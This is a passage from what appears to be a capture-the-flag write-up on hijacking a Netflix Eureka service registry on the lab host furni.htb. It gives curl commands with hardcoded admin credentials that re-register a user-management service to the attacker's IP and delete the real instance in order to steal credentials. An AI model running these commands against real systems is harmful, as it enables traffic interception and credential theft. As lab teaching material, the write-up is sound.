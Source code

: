 ```mermaid
graph LR
    A[Client Requests] --> B[Eureka Server]
    B --> C[Attacker's Instance]
    C --> D[Malicious Actions:<br/> Credential Theft]
```


After understanding the flow of the attack, we can perform the following curl commands:

```bash
curl -u EurekaSrvr:0scarPWDisTheB3st http://furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE > instance.xml
```

After getting the configuration, we need to modify both the `hostname` and the `ipAddr` to our vpn IP:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619162353.png)

Now, we can register our instance:

```bash
curl -u EurekaSrvr:0scarPWDisTheB3st \
     -H "Content-Type: application/xml" \
     -d @instance.xml \
     -X POST http://furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE
```

After that, we need to delete the other instance:

```bash
curl -su EurekaSrvr:0scarPWDisTheB3st \
     -X DELETE \
     "http://furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE/localhost:USER-MANAGEMENT-SERVICE:8081"
```

But if that's too much of a hassle, we can simply use this command:

```bash
curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE -H 'Content-Type: application/json' -d '{
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "10.10.14.234",  
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "10.10.14.234",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": { "$": 8081, "@enabled": "true" },
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'
```
